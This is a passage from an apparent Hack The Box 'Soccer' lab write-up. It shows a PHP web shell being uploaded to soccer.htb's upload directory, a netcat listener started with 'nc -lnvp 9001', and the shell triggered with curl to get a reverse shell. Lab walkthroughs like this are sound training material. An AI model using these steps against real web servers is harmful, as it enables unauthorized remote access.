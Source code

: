 Lets upload our shell.php file to the webserver.

I have uploaded the shell to the [http://soccer.htb/tiny/uploads](http://soccer.htb/tiny/uploads) directory.

![image.png](/assets/images/Soccer_HTB/image%207.png)

Now we start a listener using netcat on port 9001.

```php
nc -lnvp 9001
```

Now curling to get a hit back on our listener.

```bash
curl http://soccer.htb/tiny/uploads/shell.php
```

![image.png](/assets/images/Soccer_HTB/image%208.png)
